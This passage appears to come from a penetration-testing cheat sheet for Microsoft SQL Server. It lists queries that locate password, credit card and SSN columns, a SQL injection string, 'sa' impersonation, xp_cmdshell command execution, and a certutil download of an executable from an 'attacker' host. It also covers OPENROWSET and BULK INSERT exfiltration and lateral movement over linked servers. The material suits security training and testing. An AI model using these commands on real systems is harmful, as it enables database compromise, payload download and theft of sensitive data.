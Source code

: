 XP_CMDSHELL allows execution of shell commands via SQL Server and can be a powerful vector for privilege escalation.

##### **G. Searching for Sensitive Data**
- **Search for Columns with Potentially Sensitive Data**:
  ```sql
  SELECT table_name, column_name
  FROM information_schema.columns
  WHERE column_name LIKE '%password%'
     OR column_name LIKE '%credit%'
     OR column_name LIKE '%ssn%';
  ```

This query will help you identify tables and columns that may contain sensitive information.

#### **4. Exploitation Techniques**

##### **A. SQL Injection**
- **Basic Example**:
```sql
' OR 1=1--
```
##### **B. Privilege Escalation**
- **Impersonate SA Account**:
  ```sql
  EXECUTE AS LOGIN = 'sa';
  ```
  If the current user has impersonation privileges, this command can elevate privileges to the `sa` (system administrator) level.

##### **C. Using XP_CMDSHELL**
- **Execute a Command**:
  ```sql
  EXEC xp_cmdshell 'whoami';
  ```

- **Upload a File**:
  ```sql
  EXEC xp_cmdshell 'certutil.exe -urlcache -split -f http://attacker/file.exe file.exe';
  ```

##### **D. Data Exfiltration**
- **BULK INSERT** (reads from a file on the server):
  ```sql
  BULK INSERT my_table FROM 'C:\path\to\data.txt' WITH (FIELDTERMINATOR = ',', ROWTERMINATOR = '\n');
  ```

- **OPENROWSET** (can be used for remote data extraction):
  ```sql
  SELECT * FROM OPENROWSET('SQLNCLI', 'Server=remote_server;Trusted_Connection=yes;', 'SELECT * FROM remote_db.remote_table');
  ```

##### **E. Moving Laterally**
- **Using Linked Servers**:
  ```sql
  EXECUTE ('<command>') AT [linked_server];
  ```
